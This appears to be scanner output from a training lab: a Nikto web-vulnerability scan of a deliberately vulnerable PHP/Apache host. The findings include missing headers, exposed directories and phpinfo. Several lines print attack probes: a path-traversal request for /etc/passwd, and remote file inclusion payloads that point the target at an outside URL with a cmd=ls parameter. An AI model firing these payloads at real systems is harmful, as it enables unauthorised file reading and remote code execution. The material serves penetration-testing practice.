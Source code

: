 

(root㉿INE)-[~]
└─# nikto -h 192.5.229.3
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.5.229.3
+ Target Hostname:    192.5.229.3
+ Target Port:        80
+ Start Time:         2025-10-04 20:28:50 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ /: Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.25.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: Uncommon header 'logged-in-user' found, with contents: .
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /: Cookie showhints created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /robots.txt: contains 8 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /index.php?page=../../../../../../../../../../etc/passwd: The PHP-Nuke Rocket add-in is vulnerable to file traversal, allowing an attacker to view any file on the host. (probably Rocket, but could be any index.php).
+ /phpinfo.php: Output from the phpinfo() function was found.
+ /config/: Directory indexing found.
+ /config/: Configuration information may be available remotely.
+ /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings. See: OSVDB-12184
+ /data/: Directory indexing found.
+ /data/: This might be interesting.
+ /includes/: Directory indexing found.
+ /includes/: This might be interesting.
+ /passwords/: Directory indexing found.
+ /passwords/: This might be interesting.
+ /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ /phpmyadmin/ChangeLog: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ /test/: Directory indexing found.
+ /test/: This might be interesting.
+ /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information. See: CWE-552
+ /index.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information. See: CWE-552
+ /images/: Directory indexing found.
+ /styles/: Directory indexing found.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /?_CONFIG[files][functions_page]=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /?npage=-1&content_dir=http://blog.cirt.net/rfiinc.txt%00&cmd=ls: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /?npage=1&content_dir=http://blog.cirt.net/rfiinc.txt%00&cmd=ls: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /?show=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2